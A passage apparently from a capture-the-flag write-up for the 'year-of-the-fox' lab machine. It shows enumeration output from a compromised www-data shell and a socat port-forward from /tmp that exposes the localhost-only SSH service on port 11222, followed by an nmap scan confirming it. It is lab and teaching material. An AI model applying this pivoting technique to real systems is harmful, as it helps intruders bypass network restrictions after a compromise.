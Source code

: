 ```bash
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.163.252:137       0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.163.252:138       0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
raw6       0      0 :::58
www-data@year-of-the-fox:/var/www/html/assets/php$ cat /etc/ssh/sshd_config | grep 'Listen'

ListenAddress 127.0.0.1 
#ListenAddress ::

www-data@year-of-the-fox:/var/www/html/assets/php$ ss -tulwn

Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port  
icmp6 UNCONN  0       0                      *%eth0:58                  *:*     
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*     
udp   UNCONN  0       0          10.10.163.252%eth0:68            0.0.0.0:*     
udp   UNCONN  0       0               10.10.255.255:137           0.0.0.0:*     
udp   UNCONN  0       0               10.10.163.252:137           0.0.0.0:*     
udp   UNCONN  0       0                     0.0.0.0:137           0.0.0.0:*     
udp   UNCONN  0       0               10.10.255.255:138           0.0.0.0:*     
udp   UNCONN  0       0               10.10.163.252:138           0.0.0.0:*     
udp   UNCONN  0       0                     0.0.0.0:138           0.0.0.0:*     
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*     
tcp   LISTEN  0       128                 127.0.0.1:22            0.0.0.0:*     
tcp   LISTEN  0       50                    0.0.0.0:445           0.0.0.0:*     
tcp   LISTEN  0       50                    0.0.0.0:139           0.0.0.0:*     
tcp   LISTEN  0       50                       [::]:445              [::]:*     
tcp   LISTEN  0       50                       [::]:139              [::]:*     
tcp   LISTEN  0       128                         *:80                  *:* 
```

```bash
www-data@year-of-the-fox:/var/www/html/assets/php$ cd /tmp
www-data@year-of-the-fox:/tmp$ ls | grep 'socat'
socat
www-data@year-of-the-fox:/tmp$ ./socat TCP-LISTEN:11222,fork TCP:127.0.0.1:22
./socat TCP-LISTEN:11222,fork TCP:127.0.0.1:22
```

`nmap -sV -A -O $target_ip -p 11222 -oN port_11222_result.txt -T4`

```bash
PORT      STATE SERVICE VERSION
11222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f5:29:75:5e:00:22:bc:56:45:9f:e6:b4:1b:99:ec:58 (RSA)
|   256 53:96:e8:9f:03:71:b0:f5:59:a8:52:d1:1d:83:35:e0 (ECDSA)
|_  256 00:89:1b:31:cb:0e:03:77:10:c3:7d:e5:39:b0:25:e1 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
